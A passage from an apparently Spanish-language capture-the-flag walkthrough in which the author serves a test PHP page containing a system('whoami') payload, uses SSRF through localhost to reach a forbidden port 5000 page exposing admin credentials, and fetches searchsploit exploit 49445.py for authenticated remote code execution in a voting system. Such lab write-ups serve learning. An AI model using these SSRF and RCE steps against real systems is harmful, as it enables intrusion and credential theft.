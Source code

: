 Creamos un servicio http con python

```bash
python3 -m http.server 80
```

En la web ponemos la url de nuestro equipo 
```bash
 http://10.10.14.8/ 
```
 y vemos que la web es vulnerable a una **Injeccion HTML**.
Intentamos con una pagina php

```bash
vi index.php

<?php
    system("whoami");
?>
```

Si ahora en la web le ponemos 
```bash
 http://10.10.14.8/index.php 
```
 no pasa nada quiere decir que esta en un contexto sanitizado.
Bueno aqui pensamos en un **SSRF** y intentamos cosas como 
```bash
 http://localhost/ 
```
. Esto nos muestra el panel de session que ya hemos analizado,
y probamos a ver si los puertos que tenian el mensaje **Forbidden** se pueden ahora burlar. 

Intentamos el puerto 5000, 
```bash
 http://localhost:5000/ 
```
 y effectivamente se puede ver la pagina. A demas vemos aqui las credenciales del usuario **admin**.

Nos conectamos ahora con el usuario admin en el panel de administracion y pa dentro.

### Voting System vunlerability {-}

Aqui como una vez mas vemos el voting system, mirramos si un exploit existe para este gestor de contenido

```bash
searchsploit voting system
```

Encontramos un que permitte hacer Ejecucion Remota de comandos una vez autenticados. Como no tenemos claro que version del voting system es,
intentamos utilizar el script

```bash
cd exploits
searchsploit -m php/webapps/49445.py
mv 49445.py voting-system.py
vi voting-system.py
```
